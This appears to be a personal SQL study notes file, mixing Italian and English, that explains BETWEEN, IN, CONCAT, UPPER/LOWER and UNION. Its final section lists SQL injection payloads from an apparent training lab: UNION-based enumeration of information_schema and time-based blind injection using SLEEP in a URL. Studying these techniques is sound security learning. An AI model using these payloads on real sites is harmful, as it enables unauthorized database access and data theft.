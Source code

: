 Query exercises [here](https://www.sql-practice.com/)
## BETWEEN
Il primo dato deve essere il limite inferiore, il secondo il superiore, non viceversa.

> I limiti sono compresi: <br>
> ` BETWEEN 4 AND 10 ` comprende sia 4 che 10
## IN
Al posto di usare molteplici ` OR ` uso un ` IN `; esso mi consente di cercare un valore in una lista di valori.

```sql
    SELECT ... WHERE name IN ('Sara','Vanessa','Marta','Giulia')
```

> Oltre al costrutto ` IN ` esiste anche il ` NOT IN `
## CONCAT
Permette di concatenare più stringhe
```sql
    SELECT CONCAT(FirstName, ', ' , City) FROM customers;
```
## UPPER and LOWER
The **UPPER** function converts all letters in the specified string to uppercase.
The **LOWER** function converts the string to lowercase.

```sql
    SELECT FirstName, UPPER(LastName) AS LastName FROM employees;
```
## UNION
`UNION` in SQL concat two or more `SELECT`, without the `ALL` keyword it consider all values once, so the duplicate will be delete.

> All the select in a UNION must have the same number of column

```sql
    SELECT ID, FirstName, LastName, City FROM First
    UNION ALL
    SELECT ID, FirstName, LastName, City FROM Second;
```
## SQL Injection
- database() return the name of the database

```sql
    UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
```
Una volta trovato il nome del database posso cercare tutte le tabelle che appartengono a questo database
*There are a couple of new things to learn in this query. Firstly, the method group_concat() gets the specified column (in our case, table_name) from multiple returned rows and puts it into one string separated by commas. The next thing is the information_schema database; every user of the database has access to this, and it contains information about all the databases and tables the user has access to. In this particular query, we're interested in listing all the tables in the sqli_one database, which is article and staff_users.*

```sql
    UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
```

```sql
    https://website.thm/analytics?referrer=referrer=admin123' UNION SELECT SLEEP(2),2 where database() like 'sqli_four';--
    admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_four' and table_name like 'u%';--

    admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'a%';--

    admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name='users';--

    admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_four' and TABLE_NAME='users' and COLUMN_NAME like 'a%';

    admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%' and COLUMN_NAME !='id';
    username
